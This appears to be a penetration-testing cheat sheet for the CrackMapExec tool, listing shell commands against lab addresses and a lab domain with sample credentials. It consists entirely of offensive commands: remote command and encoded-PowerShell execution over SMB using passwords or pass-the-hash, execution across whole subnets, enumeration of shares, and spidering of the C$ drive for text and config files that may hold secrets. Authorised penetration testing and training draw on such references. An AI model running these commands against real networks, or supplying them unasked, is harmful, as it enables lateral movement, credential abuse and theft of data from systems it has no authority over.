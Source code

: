 ### Command Execution

#### Basic Command Execution
```bash
# Execute single command
crackmapexec smb 192.168.1.10 -u administrator -p password -x "whoami"

# PowerShell command
crackmapexec smb 192.168.1.10 -u administrator -p password -X "Get-Process"

# Command with domain credentials
crackmapexec smb 192.168.1.10 -u fcastle -d MARVEL.local -p Password1 -x "hostname"
```

#### Advanced Command Execution
```bash
# Execute command on multiple targets
crackmapexec smb 192.168.1.0/24 -u administrator -p password -x "whoami" --threads 50

# Save output to file
crackmapexec smb 192.168.1.0/24 -u administrator -p password -x "ipconfig" > output.txt

# Execute with hash
crackmapexec smb 192.168.1.10 -u administrator -H hash -x "net user"

# PowerShell with encoded command
crackmapexec smb 192.168.1.10 -u admin -p pass -X "powershell.exe -enc <base64_command>"
```

### Share Enumeration

#### List Shares
```bash
# List all shares
crackmapexec smb 192.168.1.10 -u administrator -p password --shares

# List shares with permissions
crackmapexec smb 192.168.1.0/24 -u user -p pass --shares

# List shares with domain credentials
crackmapexec smb 192.168.1.0/24 -u 'DOMAIN\user' -p pass --shares
```

#### Access Shares
```bash
# List files in specific share
crackmapexec smb 192.168.1.10 -u admin -p pass --spider C$ --pattern txt

# Spider all shares
crackmapexec smb 192.168.1.10 -u admin -p pass --spider-folder .

# Search for specific files
crackmapexec smb 192.168.1.10 -u admin -p pass --spider C$ --pattern "*.config"
```
